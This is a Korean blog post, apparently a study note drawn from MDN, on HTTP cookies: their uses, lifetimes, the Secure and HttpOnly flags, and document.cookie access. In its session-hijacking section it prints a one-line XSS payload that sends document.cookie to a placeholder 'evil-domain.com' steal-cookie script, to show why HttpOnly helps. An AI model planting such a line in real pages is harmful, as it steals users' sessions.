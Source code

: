 ```yaml
---
layout: post
title: "쿠키(cookie)"
subtitle: ""
comments: true
categories : HTTP
date: 2022-07-20
background: '/img/posts/06.jpg'
---
```


# 소개
Cookie에 대해서 공부하는데 MDN을 출처로 하여 [적은 글](https://velog.io/@mokyoungg/HTTP-%EC%BF%A0%ED%82%A4Cookie){:target="_blank"}을 보게 됐습니다.
FE 관련된 공부를 할 때 항상 MDN을 참고하지만 내용이 너무 많기도 하고 번역이 어색한 부분도 있어 보기가 어려웠는데 해당 글을 보면서 많은 도움을 받았습니다.
Cookie의 개념을 잡을 수 있는 좋은 글인 것 같아 참고 하여 작성합니다.

## HTTP 쿠키란 무엇인가
서버가 사용자의 웹 브라우저에 전송하는 작은 데이터 조각이라고 할 수 있습니다.
실제로 개발자 도구 > Application > Cookies를 보시면 Name/value로 매핑된 쿠키의 리스트를 확인 하실 수 있습니다.
브라우저는 이 데이터 조각들을 저장했다가 동일한 서버에서 재요청이 들어 오면 저장된 데이터를 함께 전송합니다.
쿠키는 요청이 동일한 브라우저에서 들어왔는지 아닌지를 판단할 때 주로 사용됩니다.
상태가 없는(statelss) HTTP 프로토콜에서 상태 정보를 기억시켜주기 때문입니다.
과거에는 클라이언트 측에 정보를 저장할 때 쿠키를 주로 사용했습니다.
지금은 modern storage APIs(localStorage/sessionStorage)를 사용해 정보를 저장하는 걸 권장합니다.(IndexedDB도 권장)
모든 요청마다 쿠키가 함께 전송되기 때문에 성능이 떨어지는 원인이 될 수도 있습니다.
하지만 쿠키는 아직도 정말 많이 사용되기 때문에 반드시 알고 있어야할 필요가 있습니다.

## 쿠키의 목적
- 세션 관리(Session management) : 서버에 저장해야 할 로그인, 장바구니, 게임 스코어 등의 정보 관리
- 개인화(Personalization) : 사용자 선호, 테마 등의 세팅
- 트래킹(Tracking) : 사용자 행동을 기록하고 분석하는 용도

## 쿠키의 라이프 타임
- session 쿠키 : 현재 세션이 끝날 때 삭제된다. 브라우저는 '현재 세션'이 끝나는 시점을 정의합니다.(물론 브라우저 재시작시 세션을 복원해 세션 쿠키를 무기한 존재할 수 있도록 하는 방법도 있습니다.)
- persistent 쿠키 : Expires 속성에 명시된 날짜에 삭제되거나, Max-Age 속성에 명시된 기간 이후에 삭제된다.
```
Expires 속성의 예시
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

## Secure와 HttpOnly 쿠키
Secure 쿠키는 HTTPS 프로토콜 상에서 암호화된 요청일 경우에만 전송됩니다.
하지만 Secure 일지라도 민감한 정보는 절대 쿠키에 저장하면 안됩니다.
본질적으로 안전하지 않고 이 값이 보안을 제공하는게 아니기 때문입니다. 쉽게 말하면 그냥 열람할 수 있는 정보입니다.
Cross-site 스크립팅(XSS) 공격을 방지하기 위해 사용되는 HttpOnly 쿠키는 Javascript의 document.cookie API에 접근할 수 없습니다.
```
Secure HttpOnly
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```

## document.cookie를 사용한 자바스크립트 접근
새로운 쿠키들은 document.cookie를 사용해 만들어질 수도 있으며, HttpOnly플래그가 설정되지 않은 경우 자바스크립트로 부터 접근될 수 있습니다.
즉 HttpOnly 플래그가 없으면 자바스크립트도 쿠키를 제어할 수 있다는 의미 입니다.

## 세션 하이재킹과 XSS
쿠키는 대개 웹 애플리케이션에서 사용자와 그들의 인증된 세션을 식별하기 위해 사용됩니다.
그래서 쿠키를 가로채는 것은 인증된 사용자의 세션 하이재킹으로 이어질 수 있습니다.
```javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
HttpOnly 쿠키 속성은 자바스크립트를 통해 쿠키 값에 접근하는 것을 막아 이런 공격을 막을 수 있는 최소한의 장치 입니다.

 

## 참고
- [크롬 개발자 도구로 보는 HTTP 헤더 알아보기](https://velog.io/@mokyoungg/HTTP-%EC%BF%A0%ED%82%A4Cookie)


--- 

{% highlight ruby linenos %}
{% endhighlight %}

{% if page.comments %}
<div id="post-disqus" class="container">
{% include disqus.html %}
</div>
{% endif %}
